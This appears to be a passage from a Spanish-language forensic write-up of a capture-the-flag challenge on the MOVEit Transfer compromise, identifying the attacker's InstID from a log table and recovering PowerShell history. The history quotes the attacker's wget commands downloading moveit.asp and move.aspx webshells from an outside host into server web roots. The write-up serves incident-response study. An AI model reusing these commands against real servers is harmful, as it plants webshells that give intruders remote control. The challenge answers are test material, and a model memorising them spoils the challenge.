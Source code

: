 ```
| 2023-06-14 02:41:01 |   3636 | 36svvqix50sans4n            | 127.0.0.1    |
| 2023-06-14 02:41:12 |   3636 | 36svvqix50sans4n            | 127.0.0.1    |
| 2023-06-14 02:41:17 |   3636 | vwj883m5p3944q9r            | 127.0.0.1    |
| 2023-06-14 02:41:22 |   3636 | vwj883m5p3944q9r            | 127.0.0.1    |
| 2023-06-15 01:01:11 |      0 | Automation                  |              |
| 2023-06-15 01:01:11 |   3636 | Automation                  | NULL         |
| 2023-06-15 01:01:11 |   3636 | Automation                  |              |
| 2023-06-15 01:01:11 |   3636 | Automation                  |              |
| 2023-06-15 01:01:15 |      0 | Automation                  | SCRIPT       |
| 2023-07-12 02:11:15 |   3636 | anonymous                   | 10.255.254.3 |
| 2023-07-12 02:11:15 |   3636 | anonymous                   | 10.255.254.3 |
| 2023-07-12 02:11:15 |   3636 | anonymous                   | 10.255.254.3 |
| 2023-07-12 02:11:15 |   3636 | anonymous                   | 10.255.254.3 |
| 2023-07-12 02:11:15 |   3636 | anonymous                   | 10.255.254.3 |
| 2023-07-12 02:11:15 |   3636 | anonymous                   | 10.255.254.3 |
| 2023-07-12 02:25:03 |   1234 | Guest:APCUVWMP@WCUURAXH.com | 10.255.254.3 |
| 2023-07-12 02:25:55 |   3636 | vcjoaquq                    | 10.255.254.3 |
| 2023-07-12 02:26:15 |   3636 | icfshlla                    | 10.255.254.3 |
| 2023-07-12 02:47:11 |   1234 | Guest:AQCSOIFB@YSNSKCUY.com | 10.255.254.3 |
| 2023-07-12 03:01:05 |   1234 | Guest:RWYBAGIC@HEXGVNAY.com | 10.255.254.3 |
| 2023-07-12 03:01:56 |   1234 | Guest:MHRFUQCI@LJJNDBUY.com | 10.255.254.3 |
| 2023-07-12 03:04:43 |   1234 | Guest:YRJXCORD@AQBURYAP.com | 10.255.254.3 |
| 2023-07-12 03:06:42 |   1234 | Guest:SJUHAYDO@KAAXLQSI.com | 10.255.254.3 |
| 2023-07-12 03:07:30 |   1234 | Guest:COKGEDGV@PKROFIQP.com | 10.255.254.3 |
| 2023-07-12 03:08:37 |   1234 | Guest:LKNLDAEV@XXGYUOKZ.com | 10.255.254.3 |
+---------------------+--------+-----------------------------+--------------+
45 rows in set (0.000 sec)
```

Teniendo en cuenta el valor por defecto en el módulo de Metasploit y los últimos eventos de la tabla `log`, el `InstID` del atacante fue `1234`.

---

## **12. *What command was run by the attacker to retrieve the webshell?***

Entre los archivos Triage, en la ruta `Triage/uploads/auto/C%3A/Users/moveitsvc.WIN-LR8T2EF8VHM.002/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/` se encuentra el archivo `ConsoleHost_history.txt`.

Teniendo en cuenta parte de la ruta hacia el archivo (`moveitsvc.WIN-LR8T2EF8VHM.002`), el TXT guarda el historial de comandos realizados por `moveitsvc` en PowerShell.

```
ZSH> cat ConsoleHost_history.txt
cd C:\inetpub\wwwroot
wget http://10.255.254.3:9001/moveit.asp
dir
wget http://10.255.254.3:9001/moveit.asp -OutFile moveit.asp
dir
cd C:\MOVEitTransfer\wwwroot
wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx
```
